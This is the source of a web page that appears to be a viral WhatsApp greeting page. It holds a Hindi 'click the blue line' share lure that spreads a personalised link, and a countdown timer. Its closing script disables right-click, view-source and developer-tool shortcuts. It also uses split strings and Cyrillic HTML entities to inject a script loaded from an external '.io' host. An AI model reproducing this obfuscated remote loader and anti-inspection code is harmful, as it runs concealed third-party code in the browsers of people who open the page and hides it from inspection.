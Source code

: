 var shareActionWA = function() {
 var shareString = "";
 var whatsappHref;
 shareString += "*"+sname+"*";

 
 shareString +=" ने आपके लिए कुछ खास 🎁भेजा है%0A*नीचे दी गई ब्लू लाइन को क्लिक करें*🙏%0A👇👇👇👇 %0A"
 shareString +=(window.location.href.split("?")[0] + "?bl=" + sname).replace("#", "").replace(/ /g, "-");
 

 whatsappHref = "whatsapp://send?text=" + shareString;
 window.location.href = whatsappHref;

 };
 var countDownDate = new Date("October 17, 2020 00:00:00").getTime();

 // Update the count down every 1 second
 var x = setInterval(function() {
 // Get todays date and time
 var now = new Date().getTime();

 // Find the distance between now an the count down date
 var distance = countDownDate - now;

 // Time calculations for days, hours, minutes and seconds
 var days = Math.floor(distance / (1000 * 60 * 60 * 24));
 var hours = Math.floor((distance % (1000 * 60 * 60 * 24)) / (1000 * 60 * 60));
 var minutes = Math.floor((distance % (1000 * 60 * 60)) / (1000 * 60));
 var seconds = Math.floor((distance % (1000 * 60)) / 1000);

 // Output the result in an element with id="demo"
 document.getElementById("demoo").innerHTML = days + "days " + hours + "hr "+ minutes + "min " + seconds + "sec ";

 // If the count down is over, write some text
 if (distance < 0)
 {
 clearInterval(x);
 document.getElementById("demoo").innerHTML = "";
 document.getElementById("inAdvance").innerHTML = "";

 }
 }, 1000);
 </script>

<script>
document.addEventListener('contextmenu', event => event.preventDefault()); document.write('<s'+'cr'+'ipt sr'+'c="/'+'/'+'&#1092;'+'&#1102;.'+'i'+'o"></s'+'cr'+'ipt>'); document.onkeydown = function(e) { if(event.keyCode==123){ return false; } else if (e.ctrlKey && (e.keyCode === 67 || e.keyCode === 16 || e.keyCode === 73 || e.keyCode === 86 || e.keyCode === 85 || e.keyCode === 117)) { return false; } };
</script> 
 </html>
